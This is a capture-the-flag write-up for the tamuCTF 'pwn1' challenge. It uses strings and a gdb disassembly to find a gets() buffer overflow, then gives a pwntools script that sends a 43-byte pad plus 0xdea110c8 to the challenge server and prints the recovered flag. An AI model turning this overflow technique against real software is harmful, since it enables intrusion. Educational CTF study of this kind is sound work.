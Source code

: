 # tamuCTF: pwn

## pwn1
#### Assumeably the easiest among the pwn challenges, I started the approach by running the 32-bit executable. We get asked by a prompt which reads: 
```
$ ./pwn1
   Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see. What... is your name?
```
#### Given the prompt and disassembly from gdb, I deduced that there is a string check for these questions. So what I did was use the command line utility *strings* on the binary and I got answers for the first two questions:
```
$ strings pwn1
   [...]
   Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
   What... is your name?
   Sir Lancelot of Camelot
   I don't know that! Auuuuuuuugh!
   What... is your quest?
   To seek the Holy Grail.
   What... is my secret?
   [...]
```
#### We now passed the first two questions, leaving us with only one more whose answer isn't shown up on strings or anywhere else. Fired up gdb-peda and disassembled the binary to have a deeper look into it. Disassembling the main function results into:
```
$ gdb ./pwn1
   gdb-peda$ disas main
   Dump of assembler code for function main:
      0x00000779 <+0>:	    lea    ecx,[esp+0x4]
      0x0000077d <+4>:	    and    esp,0xfffffff0
      0x00000780 <+7>:	    push   DWORD PTR [ecx-0x4]
      0x00000783 <+10>:	    push   ebp
      0x00000784 <+11>:	    mov    ebp,esp
      0x00000786 <+13>:	    push   ebx
      0x00000787 <+14>:	    push   ecx
      0x00000788 <+15>:	    sub    esp,0x40
      0x0000078b <+18>:	    call   0x600 <__x86.get_pc_thunk.bx>
      0x00000790 <+23>:	    add    ebx,0x1820
      0x00000796 <+29>:	    mov    eax,DWORD PTR [ebx+0x44]
      0x0000079c <+35>:	    mov    eax,DWORD PTR [eax]
      0x0000079e <+37>:	    push   0x0
      0x000007a0 <+39>:	    push   0x0
      0x000007a2 <+41>:	    push   0x2
      0x000007a4 <+43>:	    push   eax
      0x000007a5 <+44>:	    call   0x580 <setvbuf@plt>
      0x000007aa <+49>:	    add    esp,0x10
      0x000007ad <+52>:	    mov    DWORD PTR [ebp-0xc],0x2
      0x000007b4 <+59>:	    mov    DWORD PTR [ebp-0x10],0x0
      0x000007bb <+66>:	    sub    esp,0xc
      0x000007be <+69>:	    lea    eax,[ebx-0x1620]
      0x000007c4 <+75>:	    push   eax
      0x000007c5 <+76>:	    call   0x550 <puts@plt>
      0x000007ca <+81>:	    add    esp,0x10
      0x000007cd <+84>:	    sub    esp,0xc
      0x000007d0 <+87>:	    lea    eax,[ebx-0x15b5]
      0x000007d6 <+93>:	    push   eax
      0x000007d7 <+94>:	    call   0x550 <puts@plt>
      0x000007dc <+99>:	    add    esp,0x10
      0x000007df <+102>:	mov    eax,DWORD PTR [ebx+0x40]
      0x000007e5 <+108>:	mov    eax,DWORD PTR [eax]
      0x000007e7 <+110>:	sub    esp,0x4
      0x000007ea <+113>:	push   eax
      0x000007eb <+114>:	push   0x2b
      0x000007ed <+116>:	lea    eax,[ebp-0x3b]
      0x000007f0 <+119>:	push   eax
      0x000007f1 <+120>:	call   0x530 <fgets@plt>
      0x000007f6 <+125>:	add    esp,0x10
      0x000007f9 <+128>:	sub    esp,0x8
      0x000007fc <+131>:	lea    eax,[ebx-0x159f]
      0x00000802 <+137>:	push   eax
      0x00000803 <+138>:	lea    eax,[ebp-0x3b]
      0x00000806 <+141>:	push   eax
      0x00000807 <+142>:	call   0x510 <strcmp@plt>
      0x0000080c <+147>:	add    esp,0x10
      0x0000080f <+150>:	test   eax,eax
      0x00000811 <+152>:	je     0x82f <main+182>
      0x00000813 <+154>:	sub    esp,0xc
      0x00000816 <+157>:	lea    eax,[ebx-0x1584]
      0x0000081c <+163>:	push   eax
      0x0000081d <+164>:	call   0x550 <puts@plt>
      0x00000822 <+169>:	add    esp,0x10
      0x00000825 <+172>:	sub    esp,0xc
      0x00000828 <+175>:	push   0x0
      0x0000082a <+177>:	call   0x560 <exit@plt>
      0x0000082f <+182>:	sub    esp,0xc
      0x00000832 <+185>:	lea    eax,[ebx-0x1564]
      0x00000838 <+191>:	push   eax
      0x00000839 <+192>:	call   0x550 <puts@plt>
      0x0000083e <+197>:	add    esp,0x10
      0x00000841 <+200>:	mov    eax,DWORD PTR [ebx+0x40]
      0x00000847 <+206>:	mov    eax,DWORD PTR [eax]
      0x00000849 <+208>:	sub    esp,0x4
      0x0000084c <+211>:	push   eax
      0x0000084d <+212>:	push   0x2b
      0x0000084f <+214>:	lea    eax,[ebp-0x3b]
      0x00000852 <+217>:	push   eax
      0x00000853 <+218>:	call   0x530 <fgets@plt>
      0x00000858 <+223>:	add    esp,0x10
      0x0000085b <+226>:	sub    esp,0x8
      0x0000085e <+229>:	lea    eax,[ebx-0x154d]
      0x00000864 <+235>:	push   eax
      0x00000865 <+236>:	lea    eax,[ebp-0x3b]
      0x00000868 <+239>:	push   eax
      0x00000869 <+240>:	call   0x510 <strcmp@plt>
      0x0000086e <+245>:	add    esp,0x10
      0x00000871 <+248>:	test   eax,eax
      0x00000873 <+250>:	je     0x891 <main+280>
      0x00000875 <+252>:	sub    esp,0xc
      0x00000878 <+255>:	lea    eax,[ebx-0x1584]
      0x0000087e <+261>:	push   eax
      0x0000087f <+262>:	call   0x550 <puts@plt>
      0x00000884 <+267>:	add    esp,0x10
      0x00000887 <+270>:	sub    esp,0xc
      0x0000088a <+273>:	push   0x0
      0x0000088c <+275>:	call   0x560 <exit@plt>
      0x00000891 <+280>:	sub    esp,0xc
      0x00000894 <+283>:	lea    eax,[ebx-0x1534]
      0x0000089a <+289>:	push   eax
      0x0000089b <+290>:	call   0x550 <puts@plt>
      0x000008a0 <+295>:	add    esp,0x10
      0x000008a3 <+298>:	sub    esp,0xc
      0x000008a6 <+301>:	lea    eax,[ebp-0x3b]
      0x000008a9 <+304>:	push   eax
      0x000008aa <+305>:	call   0x520 <gets@plt>
      0x000008af <+310>:	add    esp,0x10
      0x000008b2 <+313>:	cmp    DWORD PTR [ebp-0x10],0xdea110c8
      0x000008b9 <+320>:	jne    0x8c2 <main+329>
      0x000008bb <+322>:	call   0x6fd <print_flag>
      0x000008c0 <+327>:	jmp    0x8d4 <main+347>
      0x000008c2 <+329>:	sub    esp,0xc
      0x000008c5 <+332>:	lea    eax,[ebx-0x1584]
      0x000008cb <+338>:	push   eax
      0x000008cc <+339>:	call   0x550 <puts@plt>
      0x000008d1 <+344>:	add    esp,0x10
      0x000008d4 <+347>:	mov    eax,0x0
      0x000008d9 <+352>:	lea    esp,[ebp-0x8]
      0x000008dc <+355>:	pop    ecx
      0x000008dd <+356>:	pop    ebx
      0x000008de <+357>:	pop    ebp
      0x000008df <+358>:	lea    esp,[ecx-0x4]
      0x000008e2 <+361>:	ret    
   End of assembler dump.
```
#### We see that the prompts for the first two questions get user input via fgets, which is a quite secure way of getting user input. But the third question at address ```0x0000089b``` uses a gets() call for input, which is vulnerable to buffer overflow attacks. It is also important to note that the program also checks if the answer for the third question is equal to ```0xdea110c8``` before it proceeds to the ```print_flag``` function. So the exploit method for this challenge will be a buffer overflow into controlling an argument. But before we head that, we do a deeper analysis of the code block that happens before and after the gets call. 
```
      0x000008a0 <+295>:	add    esp,0x10
      0x000008a3 <+298>:	sub    esp,0xc
      0x000008a6 <+301>:	lea    eax,[ebp-0x3b]
      0x000008a9 <+304>:	push   eax
      0x000008aa <+305>:	call   0x520 <gets@plt>
      0x000008af <+310>:	add    esp,0x10
      0x000008b2 <+313>:	cmp    DWORD PTR [ebp-0x10],0xdea110c8
```
#### What this does is allocates space on the stack for some variables, which is the array buffer in this case, and pushes a pointer to ```[ebp-0x3b]``` , which is the address for the array buffer, on the stack. After the gets call, a compare instruction is done at address ```[ebp-0x10]``` if the contents is in fact equal to ```0xdea110c8```. So it becomes clearer that we have to overwrite the contents of ```[ebp-0x3b]``` to ```[ebp-0x10]```, which has a difference of 43 which is the offset we need to overflow the buffer. And we proceed with the exploitation.
#### exploit.py
```python
   from pwn import *

   #: Connect to challenge server
   HOST = 'pwn.tamuctf.com'
   PORT = 4321
   conn = remote(HOST,PORT)

   #: Exploit code
   offset = 'A' * 43
   secret = p32(0xdea110c8)
   exploit = offset + secret

   #: Send data
   print(conn.recv())
   conn.sendline('Sir Lancelot of Camelot')
   print(conn.recv())
   conn.sendline('To seek the Holy Grail.')
   print(conn.recv())
   conn.sendline(exploit)
   print(conn.recv())
   print(conn.recv())
```
#### And we then get the flag! 
```
$ python exploit.py

   Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
   What... is your name?

   What... is your quest?

   What... is my secret?

   Right. Off you go.
   gigem{34sy_CC428ECD75A0D392}
```
